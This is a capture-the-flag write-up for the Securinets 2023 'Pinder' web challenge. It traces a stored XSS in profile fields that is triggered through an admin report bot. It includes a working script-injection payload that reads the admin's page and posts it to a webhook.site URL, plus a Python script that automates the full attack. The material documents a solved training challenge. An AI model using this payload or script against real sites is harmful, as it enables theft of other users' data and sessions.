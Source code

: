 ```yaml
---
title: "Securinets CTF Quals 2023 - webx1"
excerpt: "📅 Time: Sunday, August 6, 2023, 01:00 ICT — Monday, August 7, 2023, 01:00 ICT (~GMT +7)
💻 Official URL: https://ctf.securinets.tn"
header:
show_date: true
header:
  teaser: "https://hackmd.io/_uploads/SyrwTwfRh.png"
  teaser_home_page: true
  icon: "https://hackmd.io/_uploads/By3gJwG0h.png"
categories:
  - CTF
tags:
  - CTF
  - English
---
```


<p align="center">
<img src="https://hackmd.io/_uploads/SyrwTwfRh.png">
</p>

# Pinder

## Description

![](https://hackmd.io/_uploads/rkatqgpjn.png)

Link: http://pinder.securinets.tn

Source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2023/Securinets%20Quals%202023/pinder.zip).


## Solution

## Review source code

The source code is quite a lot but I will focus on a few important files.

![](https://hackmd.io/_uploads/H1aIoe6o2.png)

After looking through the entire source code, I noticed that there are some functions that should be paid attention to as follows:

- In the file `./routes/index.js`:

 `login`:

![](https://hackmd.io/_uploads/HJQcaeasn.png)

`register`:

![](https://hackmd.io/_uploads/B1Fa6lash.png)

`create-profile` and `make-public`:

![](https://hackmd.io/_uploads/rJRJReaj3.png)

In this function 3 inputs are required including `userId`, `firt_name`, `last_name` and `profile_picture_link`.

`const result = db.createProfile(req.session.userId, req.body.first_name, req.body.last_name, req.body.profile_picture_link, true);`


`/my-profile`:

![](https://hackmd.io/_uploads/By7FAlajh.png)

This path allows you to view previously created profiles. in which there is a point worth noting.

`res.render("my-profile", { profile: result[0] }` function gets the profile id in the database and displays it to the interface.

Here is the result of `result`:

![](https://hackmd.io/_uploads/B1B-1-Tj2.png)

However, on the desktop interface, the profile id is hidden with `style="display:none"`.

![](https://hackmd.io/_uploads/r12Qyb6jn.png)

There are also 2 other paths but only for admin.

![](https://hackmd.io/_uploads/H1ldJWpoh.png)

admin can view profiles of other accounts through the path `/profile/{id}`.

![](https://hackmd.io/_uploads/S1-aJbToh.png)


- The flag is located in the profile of `admin`.

![](https://hackmd.io/_uploads/rkrEeZTih.png)

- I tried to create a template containing malicious javascript code and open it in `admin` account.

In my account.

![](https://hackmd.io/_uploads/BkCYZZpj3.png)

In `admin`.

![](https://hackmd.io/_uploads/rJGab-ain.png)

yeah. :100: I received a message - XSS stored vulnerability from `admin` side.


- In `./util/report.js`:
There is a requirement, the url when sumit must start with `http://127.0.0.1/profile`.

![](https://hackmd.io/_uploads/B1UdMZpo2.png)

:::success
=> At this point, I can guess that this web application contains an XSS stored vulnerability.

The mining steps I perform will be as follows:
- Create an account and login
- Create profile contains XSS code to fetch to the profile in admin and send the results to a webhook.
- Get `id` of `profile` just created in view-source
- Submit my-profile to admin with the link `http://127.0.0.1/profile/{id}`
- Get flags from webhook
:::


## Exploit XSS
- Now, I change a bit the old payload to .
```!
"><script>fetch('http://127.0.0.1/my-profile').then(response => response.text()).then(data => {fetch('	https://webhook.site/9a0f20d5-7f92-43bb-a455-5d82fd12eb17',{method: 'POST', headers: {'Content-Type': 'text/plain'},body: data});}).catch(error => console.error(error));</script>
```

- Add it to the `firtname` of the profile.

![](https://hackmd.io/_uploads/BkxpQZpon.png)

Done!

- Looking at the source code we can see that `profile id` is `485`

![](https://hackmd.io/_uploads/S1GN4Zpoh.png)


- Now submit my profile to admin with the link
`http://127.0.0.1/profile/485`

![](https://hackmd.io/_uploads/ByiDNbTj3.png)

- ok, i get the flag from webhook.

![](https://hackmd.io/_uploads/HkU84b6in.png)

Flag: `securinets{3bcc81811533d70940084c8}`


## Script

```python
import requests
import string
import random

import time

from bs4 import BeautifulSoup

url = "http://pinder.securinets.tn"

webhook = "https://webhook.site/c575a735-3aaf-4b9a-b8b9-4eeba169e356"

payload = "'><script>fetch('http://127.0.0.1/my-profile').then(response => response.text()).then(data => {fetch('#####',{method: 'POST', headers: {'Content-Type': 'text/plain'},body: data});}).catch(error => console.error(error));</script>"

with requests.Session() as session:
    username = ''.join(random.choices(string.ascii_letters + string.digits, k=3))

    session.post(url + '/register', json={ 'username': username, 'password': '12345678'})
    session.post(url + '/login', json={ 'username': username, 'password': '12345678' })
    payload = payload.replace('#####', webhook)
    session.post(url + '/create-profile', json={"first_name":payload,"last_name":payload,"profile_picture_link":payload} )
    res = session.get(url + '/my-profile')
    if res.status_code == 200:
        soup = BeautifulSoup(res.content, "html.parser")
        card_subtitle = soup.find("p", class_="card-subtitle")
    
    if card_subtitle:
        value = card_subtitle.get_text().strip("#")
        print("Id profile: ", value)
        
    session.post(url + '/report', json={"url":"http://127.0.0.1/profile/" + value})
    time.sleep(2)
    print('Done! check webhook')


```

Result:
```
┌──(taiwhis㉿kali)-[~]
└─$ python 2.py
Id profile:  517
Done! check webhook

```
Check webhook:

![](https://hackmd.io/_uploads/Syc66Zpj3.png)



